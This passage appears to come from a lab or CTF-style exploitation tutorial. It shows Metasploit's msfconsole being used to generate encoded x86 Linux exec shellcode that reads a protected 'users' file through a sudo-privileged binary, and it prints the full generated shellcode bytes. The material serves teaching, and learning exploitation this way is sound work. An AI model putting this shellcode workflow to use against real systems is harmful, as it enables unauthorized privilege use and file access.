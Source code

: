**Remember to run gdb through env and unset LINES and COLUMNS.**

Once this is true we can generate some shell code to take advantage of our sudo permissions.

Launch MetaSploit with "msfconsole"

Let’s select a payload for a proof of concept. We are exploiting an x86 32 bit program on a Linux
machine. "Linux/x86/exec" should execute whatever we want.

```
use payload/linux/x86/exec
```
"show options" will allow us to view what we can set.

```
show options
Module options (payload/linux/x86/exec):
```
```
Name Current Setting Required Description
---- --------------- -------- -----------
CMD yes The command string to execute
```
linux/x86/exec only takes a CMD option that is the command you want to run. Let’s set that to 'cat
users' since that is a protected file in the same directory as the binary.

```
set CMD cat users
```
```
generate -b "\x00" -f python
# linux/x86/exec - 72 bytes
# https://metasploit.com/
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, PrependFork=false, PrependSetresuid=false,
# PrependSetreuid=false, PrependSetuid=false,
# PrependSetresgid=false, PrependSetregid=false,
# PrependSetgid=false, PrependChrootBreak=false,
# AppendExit=false, MeterpreterDebugLevel=0,
# RemoteMeterpreterDebugFile=, CMD=cat users
buf = b""
buf += b"\xba\xaa\x14\x57\xbb\xdb\xc7\xd9\x74\x24\xf4\x5e\x2b"
buf += b"\xc9\xb1\x0c\x83\xc6\x04\x31\x56\x0f\x03\x56\xa5\xf6"
buf += b"\xa2\xd1\xb2\xae\xd5\x74\xa2\x26\xcb\x1b\xa3\x50\x7b"
```

```
buf += b"\xf3\xc0\xf6\x7c\x63\x09\x65\x14\x1d\xdc\x8a\xb4\x09"
buf += b"\xd4\x4c\x39\xca\x8b\x2d\x4d\xea\x3e\xdd\xc8\x98\xb3"
buf += b"\x21\x44\x0e\xba\xc3\xa7\x30"
```
After the options were set, we generated shell code that we can now copy and paste into our python
exploit script.
'-b' allowed us to enter bad characters. We’ll start with just x00 for now because that one is always
bad since it is a null-terminator and will stop exeecutino of our shellcode. We can test for more bad
characters later if needed.
'-f python' just gave us a byte string array that we could directly use in a python script.
